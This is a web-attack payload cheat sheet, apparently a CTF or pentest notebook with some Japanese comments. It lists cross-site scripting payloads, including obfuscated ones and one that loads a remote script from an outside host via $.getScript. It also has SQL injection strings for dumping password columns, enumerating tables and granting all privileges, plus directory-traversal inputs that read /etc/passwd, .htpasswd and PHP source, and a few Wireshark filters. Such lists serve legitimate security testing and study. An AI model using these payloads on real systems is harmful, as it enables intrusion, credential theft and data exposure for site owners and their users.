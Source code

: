 #XSS

* basic
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>

* image
<img src="xss" onerror="alert('XSS')">

* script
html += "<img src='/static/level3/cloud"'onerror="alert('XSS')"'".jpg' />";
');alert('XSS')('

* on url
javascript:void(document.forms[0].p2.childNodes[1].innerText='<script>alert(document.domain)</script>');

* svg
<svg onload=alert("xss!")>

* mouseover
" onmouseover="alert(document.domain);" x="

* escape
<script>alert('XSS')</sciprt>
"><script>alert(document.domain)</script>
" onmouseover = " alert('\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E')"
re"><script>alert(\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E)</script>
" onmouseover = " alert('\x58\x53\x53') "
"/onmouseover="window['aler'+'t']('XS'+'S')">

* data uri scheme
<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>
<object data="data:text/html,<script>alert('XSS2')</script>"></object>

* space
<style/onload    =    !-alert&#x28;document.domain&#x29;>

* vbs
<img language=vbs src=<b onerror=alert#1/1#>

* short
<q/oncut=alert()
<q/oncopy=alert()

* unicode escape
<script>\u0078=\u0061\u006c\u0065\u0072\u0074; \u0078("\u0068\x61\150\u0061");</script>

* gsub
"><sscriptcript>alert('XSS')</sscriptcript>
document.write(); \x3cscript\x3ealert(document.domain);\x3c/script\x3e
p1=%A2%BE%BCscript%BEalert(document.domain);%BC/script%BE
background-color:#f00;background:url("javascript:alert(document.domain);");

<p id=1 onmouseover=alert(document.getElementById(1).innerHTML)>XSS</p>
"(function (text){if(!f)a(text);if(text==='XSS'){if(!f){f=1;window.setTimeout(function(){f=0},100);if(li)li.innerHTML=t}else{f=0;cs=[5010175210,5010175222,5010175227,5010175166,5010175224,5010175218,5010175231,5010175225,5010175166,5010175223,5010175213,5010175140,5010175166,5010175199,5010175194,5010175197,5010175178,5010175192,5010175169,5010175191,5010175169,5010175146,5010175187,5010175169,5010175146,5010175218,5010175149,5010175180,5010175210,5010175169,5010175187,5010175146,5010175216];t='';for(i=0;i<cs.length;i++){t+=String.fromCharCode(cs[i]^0x123456789+123456789)}appendTweet('<b>'+t+'</b>')}}else{f=0}})"

* jquery
<img src=1 onerror=$.getScript('http://vuln.moe/web/xss/xss.js')>


# SQLi
* basic
' or 1=1;--
' or 1=1;#
' or '1

* union
' or 1=1 union select sql,1,1 from sqlite_master;--
' or 1=1 union select password, name, 1 from users_hogefuga;--
SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members 

# null の数を変えてカラム数を特定
' and 1=0 UNION ALL SELECT null,null,null#
# テーブル一覧を取得
' and 1=0 UNION ALL (SELECT TABLE_SCHEMA,TABLE_NAME ,TABLE_COMMENT FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE') ;#
# カラム一覧を取得
' and 1=0 UNION ALL (SELECT TABLE_NAME,COLUMN_NAME,DATA_TYPE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME IN('func') ORDER BY TABLE_NAME) ;#
' and 1=0 UNION ALL (SELECT 1, 1, GRANTEE FROM INFORMATION_SCHEMA.SCHEMA_PRIVILEGES); #

' and 1=0 UNION ALL SELECT null,null,null FROM user;#
' and 1=0 UNION ALL SELECT null, current_user(), version();#
' and 1=0 UNION ALL GRANT ALL PRIVILEGES ON *.* TO username@'%'#
' and 1=0 UNION ALL SELECT null, null, password FROM mysql.user#
SCHEMA_PRIVILEGES
fuga' OORR '1
5.1.73
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/

# perl json sqli
{ "name" : "a", "a\") OR 1 #" : "a" }

# Wire shark packete filter
icmp.type == 8
http.host contains google
tcp.flags == 0x02
tcp.flags == 0x12
tcp.flags == 0x14
http.response
http.request

udp contains 33:27:58
* パケットサイズ
frame.len == 18
data.data
frame contains 17
(tcp.flags.reset == 1) && (ip.id > 0)

# directory traversal
view.php?file=../index.php
?lang=php://filter/convert.base64-encode/resource=index.php
../index
../index.php
/etc/passwd
../../../etc/passwd
/etc/apache2/httpd.conf
.git
sitemap.xml
robots.txt
%00
.htpasswd%00
